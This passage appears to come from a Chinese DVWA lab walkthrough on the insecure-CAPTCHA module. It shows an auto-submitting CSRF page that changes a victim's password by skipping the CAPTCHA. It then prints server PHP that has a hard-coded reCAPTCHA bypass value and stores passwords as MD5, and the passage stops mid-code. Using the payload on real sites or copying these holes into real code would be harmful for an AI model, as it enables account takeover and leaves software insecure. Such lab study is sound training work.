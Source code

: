 **CSRF**

依然可以实施 CSRF 攻击，攻击页面代码如下。
```
<html>

<body onload="document.getElementById('transfer').submit()">

  <div>

    <form method="POST" id="transfer" action="http://<IP地址!!!>/dvwa/vulnerabilities/captcha/">

		<input type="hidden" name="password_new" value="password">

		<input type="hidden" name="password_conf" value="password">

        <input type="hidden" name="passed_captcha" value="true">

		<input type="hidden" name="step" value="2"

		<input type="hidden" name="Change" value="Change">

	</form>

  </div>

</body>

</html>
```

### High
**服务器端核心代码**
```php
<?php

if( isset( $_POST[ 'Change' ] ) ) {
	// Hide the CAPTCHA form
	$hide_form = true;

	// Get input
	$pass_new  = $_POST[ 'password_new' ];
	$pass_conf = $_POST[ 'password_conf' ];

	// Check CAPTCHA from 3rd party
	$resp = recaptcha_check_answer(
		$_DVWA[ 'recaptcha_private_key' ],
		$_POST['g-recaptcha-response']
	);

	if (
		$resp || 
		(
			$_POST[ 'g-recaptcha-response' ] == 'hidd3n_valu3'
			&& $_SERVER[ 'HTTP_USER_AGENT' ] == 'reCAPTCHA'
		)
	){
		// CAPTCHA was correct. Do both new passwords match?
		if ($pass_new == $pass_conf) {
			$pass_new = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $pass_new ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
			$pass_new = md5( $pass_new );
```
